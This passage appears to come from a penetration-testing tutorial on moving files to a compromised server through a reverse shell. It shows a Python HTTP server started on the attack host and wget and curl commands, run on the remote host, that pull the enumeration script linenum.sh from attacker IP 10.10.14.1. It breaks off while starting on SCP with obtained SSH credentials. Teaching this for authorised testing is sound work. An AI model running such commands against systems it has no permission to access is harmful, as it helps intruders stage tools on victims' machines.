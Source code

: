 * * *

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

* * *

## Using wget

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```shell
cd /tmp
python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```shell
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]

```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

```shell
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

```

Note that we used the `-o` flag to specify the output file name.

* * *

## Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
